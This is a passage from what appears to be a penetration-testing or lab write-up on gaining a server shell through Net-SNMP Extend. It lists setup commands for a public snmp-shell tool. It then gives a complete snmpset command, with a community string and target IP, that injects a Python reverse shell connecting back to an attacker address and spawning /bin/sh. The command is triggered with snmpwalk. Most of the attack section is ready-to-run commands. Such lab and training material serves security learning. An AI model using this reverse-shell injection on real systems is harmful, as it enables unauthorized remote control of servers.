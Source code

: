 ![Untitled](media/a459741603356e2354640df6a13102d5.png)

Getting the Shell from Net-SNMP Extend

In this section, I would like to discuss how to gain a server shell to control the server.

You can use python script developed by mxrch that can be downloaded from <https://github.com/mxrch/snmp-shell.git>

You can install the pre-requisite to run this:

| 1 2 3 4  | sudo apt install snmp snmp-mibs-downloader rlwrap -y git clone https://github.com/mxrch/snmp-shell cd snmp-shell sudo python3 -m pip install -r requirements.txt  |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Untitled](media/1140ab476c2bed0b4a07f140ef99657f.png)

Creating reverse shell

You can also create reverse shell manually by injecting the command below into the SNMP

| 1  | snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\\"10.10.14.84\\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\\"/bin/sh\\")"'  |
|----|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Untitled](media/5e13d45e939c89dfb8fda3288e5b2d54.png)

run the snmpwalk to trigger the command execution
